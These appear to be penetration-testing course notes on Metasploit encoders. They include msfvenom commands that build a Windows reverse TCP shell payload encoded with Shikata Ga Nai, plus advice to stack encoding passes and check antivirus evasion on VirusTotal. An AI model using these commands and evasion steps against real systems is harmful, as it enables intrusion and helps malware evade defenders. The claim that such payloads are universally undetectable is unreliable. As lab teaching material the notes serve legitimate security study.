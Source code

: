 Encoders have assisted with making payloads compatible with different processor architectures while helping with antivirus evasion. Architectures include `x64, x86, sparc, ppc, mips`. They are also needed to remove hexadecimal opcodes aka bad characters from the payload. 

Encoding the payload in different formats could help with AV detection, but it has improved software. The Shikata Ga Nai (SGN) is one of the most utilized encoding and its so hard to detect that payloads encoded through are universally undetectable. The name means `nothing can be done about it`.  
[Read more about Shikata Ga Nai](https://cloud.google.com/blog/topics/threat-intelligence/shikata-ga-nai-encoder-still-going-strong/)

**Selecting an Encoder**

One can use the `msfvenom` tool to create payloads and add the `-e` tag to add a custom encoder preferably the `shikata_ga_nai` would be the best option. 

```shell-session
workstation@htb[/htb]$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl

workstation@htb[/htb]$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai
```

Also another tangible idea is to pass through the encoder multiple iterations and you can always use the online virus total or the `msf-virustotal` tool to analyze our payloads and check if they are able to evade any antiviruses.  
